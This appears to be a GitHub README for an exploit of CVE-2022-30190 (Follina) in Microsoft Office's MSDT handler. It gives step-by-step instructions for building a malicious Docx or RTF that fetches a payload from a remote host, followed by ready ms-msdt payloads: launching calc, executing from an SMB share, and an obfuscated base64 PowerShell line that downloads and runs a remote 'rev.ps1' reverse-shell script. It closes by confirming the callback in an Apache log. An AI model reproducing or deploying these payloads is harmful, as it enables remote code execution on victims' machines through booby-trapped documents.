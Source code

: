 # MS-MSDT-Office-RCE-Follina
CVE-2022-30190 | MS-MSDT Follina One Click

1. Create a Docx file.
2. In the Docx file, Insert > Object > Bitmap Image > Ok
3. In the Paint application that launched, save the Paint file.
4. Save your Docx file.
5. Open your file as an archive (With 7Zip; Right Click > 7Zip > Open Archive.)
6. Copy out the Document.xml from \Word\ and document.xml.rels file from \word_rels\
7. Open/Edit the \word\_rels\Document.xml.rels and locate the relationship XML Tag with "/relationships/oleObject". After this replace the destination in "Target=" to your remote destination where it will grab the payload from. Also add "TargetMode="External"" to the XML Tag.
8. Compress back to Docx file (Send to > Compressed (zipped) folder  |  Rename file type from zip > docx/doc )

--------------------------------------------------------------------------------------------------------
### RTF File Type
Once a docx has been saved utilizing the paramaters step / paramaters below. Save the Docx as an RTF.

> If you also add these elements under the `<o:OLEObject>` element in `word/document.xml`:

```
<o:LinkType>EnhancedMetaFile</o:LinkType>
<o:LockedField>false</o:LockedField>
<o:FieldCodes>\f 0</o:FieldCodes>
```

--------------------------------------------------------------------------------------------------------
The act of recompressing can be observed from JohnHammond's Python Script as well:
    ~ Rebuild the original office file ~
    > shutil.make_archive(args.output, "zip", doc_path)
    > os.rename(args.output + ".zip", args.output)
    
Reference: https://github.com/JohnHammond/msdt-follina/blob/main/follina.py



--------------------------------------------------------------------------------------------------------





## Payloads 

### Basic Calc Execute:
```
<script>
window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Start-Process('calc'))i/../../../../../../../../../../../../../../Windows/system32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>
```

Can Replace the Start-Process('calc') with:
> IEX('calc.exe')
--------------------------------------------------------------------------------------------------------
### SMB Share Execution:

```
<script>
location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=/../../$(\\\\taretip\\share\\poc)/.exe)"";
</script>
```
--------------------------------------------------------------------------------------------------------
### PS1 File Load:
```
<script>
window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'cG93ZXJzaGVsbC5leGUgLWMgImlleCAoaXdyIGh0dHA6Ly8xOTIuMTY4LjE5OC4xMjgvcmV2LnBzMSAtVXNlQmFzaWNQYXJzaW5nKSIK'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>  
```

Decoded:
Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("powershell.exe -c "iex (iwr http://192.168.198.128/rev.ps1 -UseBasicParsing)""))

--------------------------------------------------------------------------------------------------------
### Apache2 access.log should show connection upon opening file
![Log Example](/log.png?raw=true "Example")

